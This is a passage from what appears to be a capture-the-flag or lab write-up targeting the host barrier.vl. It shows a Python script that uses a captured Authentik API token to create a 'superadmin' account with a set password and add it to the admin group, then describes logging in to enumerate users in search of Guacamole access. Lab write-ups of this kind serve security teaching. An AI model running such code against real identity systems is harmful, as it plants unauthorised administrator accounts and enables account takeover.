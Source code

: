 ```python
            data = {
                "pk": user_pk
            }

            response = self.session.post(
                urljoin(self.base_url, f'/api/v3/core/groups/{admin_group["pk"]}/add_user/'),
                json=data
            )
            response.raise_for_status()
            return True
        except requests.exceptions.RequestException as e:
            print(f"Error adding user to admin group: {e}")
            return False

def main():
    base_url = "http://barrier.vl:9000"
    api_token = "***"
    username = "superadmin"
    password = "Barrier123!"

    client = AuthentikAPI(base_url, api_token)

    if not client.test_connection():
        print("Failed to connect to Authentik")
        sys.exit(1)

    new_user = client.create_user(username)
    if not new_user:
        print("Failed to create user")
        sys.exit(1)

    if client.set_password(new_user['pk'], password):
        print(f"Successfully set password")
    else:
        print("Failed to set password")
        sys.exit(1)

    if client.add_user_to_admin_group(new_user['pk']):
        print(f"Successfully created admin user: {new_user['username']}")
    else:
        print("Failed to add user to admin group")
        sys.exit(1)

if __name__ == "__main__":
    main()%       
```

Now we can log into `https://barrier.vl:9443` as the new administrator user. This allows us to see all users, which is important since we are still looking for one that might be able to access Guacamole.
